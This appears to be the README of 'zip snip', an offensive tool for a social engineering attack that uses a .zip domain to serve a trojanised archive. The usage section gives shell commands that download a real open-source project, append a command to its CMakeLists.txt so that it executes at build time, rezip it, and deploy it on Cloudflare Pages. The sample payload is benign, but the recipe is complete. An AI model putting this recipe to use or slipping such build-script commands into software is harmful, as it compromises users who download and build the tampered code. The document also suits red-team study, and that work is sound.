 # zip snip 🤐✂️

Social engineering attack using a `.zip` domain.

<div align="center">
  <kbd>
    <a href="https://www.youtube.com/watch?v=WR4IY04FqtU"><img src="https://img.youtube.com/vi/WR4IY04FqtU/hqdefault.jpg" alt="video"></a>
  </kbd>
</div>

## Description

See full blog post at https://noperator.dev/posts/zip-snip/.

## Getting started

### Usage

First, prepare a malicious ZIP file. For example, the following code:
- downloads the zipped source code for a popular CLI URL parser
- extracts the project and inserts a malicious command into a build script
- zips the project back up

```
$ wget https://github.com/stricaud/faup/archive/refs/tags/v1.4.zip
$ unzip v1.4.zip
$ echo 'execute_process (COMMAND bash -c "touch /tmp/pwn")' >> faup-1.4/CMakeLists.txt
$ zip -r9 faup-1.4.zip faup-1.4
```

Next, create a Cloudflare Pages deployment (`site.zip`) that includes this malicious ZIP file.

```
$ ./build-site.sh faup-1.4.zip
```

After building a site above, nativate to Cloudflare Pages, choose (or create) your project, create a new deployment, and upload the `site.zip` file you just created.

## Back matter

### Legal disclaimer

Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

### License

This project is licensed under the [MIT License](LICENSE.md).
